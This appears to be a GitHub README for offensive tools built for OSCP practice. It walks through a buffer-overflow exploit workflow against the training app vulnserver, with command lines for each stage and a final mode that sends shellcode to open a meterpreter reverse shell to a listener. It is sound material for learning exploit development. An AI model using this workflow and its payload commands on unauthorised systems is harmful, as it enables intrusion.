 # OffensiveTools
Some offensive tools that I am playing around with

----- ExploitShadow.py -----

I was trying to save some time on my OSCP exam and decided to build most of the exploit dev stages into one single python script where you can choose the mode based on where you are in the process. The only other thing you might need to configure that was not in the instructions is the way the "maliciousbuffer" variables get crafted within each mode, based on the application you're attacking; I'll leave that for you to decide, because it's ridiculously easy :)

The idea is you should have your msfconsole up and exploit/multi/handler set to use whatever payload you configured in ExploitShadow, then to get your shell you will use mode 4 like this:

./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

In the above example, the argument "4" is the mode I am using to send the final payload to get a meterpreter session. I initially crashed the program with mode 1, then found that 2006 is the number of bytes offset to the EIP overwrite (found via modes 2 and 5), then checked for bad characters with mode 3 (00, 0a, 0d are there by default), then send the final payload with mode 4. The 0x11223344 is the theoretical memory location of a "jmp esp" command, which would hit the second nopsled directly after the EIP overwrite and continue onto the shellcode. The 10.0.0.1 and 443 are the LHOST/LPORT information fed into msfvenom. The 10.0.0.10 and 9999 are the IP address of the remote server and port we are attacking.

Honestly, the cherry on top in this is the fact that it gives you a date/time stamp of when the payload is sent at the very end, because we are pentesters and the report is what matters to the client, right???

The complete process for attacking vulnserver with this tool looked more like this:

# I sent a buffer of "TRUN ." + 3000 A's, resulting in a crash...
./exploitshadow.py 1 3000 10.0.0.13 9999
# Since that crashed it, I had the tool generate a pattern of 3000 characters and sent that next...
./exploitshadow.py 2 3000 10.0.0.13 9999
# At this point, the EIP register had the hex values 396F4338 inside it, so now I just need to find that offset next...
./exploitshadow.py 5 3000 396F4338
# Now I know that the offset is 2006, because that's what mode 5 gives me as output, so now I sent a buffer with all byte values 0-255...
./exploitshadow.py 3 2006 10.0.0.13 9999
# Keep doing that and using badbytecheck.py to eliminate bad bytes/chars. When you have them all eliminated, and you find a proper jump address, send payload...
./exploitshadow.py 4 2006 0x11223344 10.0.10.10 443 10.0.0.13 9999

----- BadByteCheck.py -----

Furthering the process of automating exploit development, I realize that you can probably do the same thing with tools such as Mona.py, but I enjoy writing my own tools and this is one that I find less annoying to deploy. Once I've sent a buffer with all byte values 0-255, I dump the memory where those values begin from the debugger, and then run this tool against the dump file. Any byte values that I already know are most likely bad are pre-configured within the tool, and it's easy to add more. It skips the "bad" bytes in order when it's checking, and looks for any byte mismatches between the internally generated "allbytes" (0-255) range and the values that were actually dumped from the debugger, reporting any mismatches that can be verified with hexdump. Enjoy!
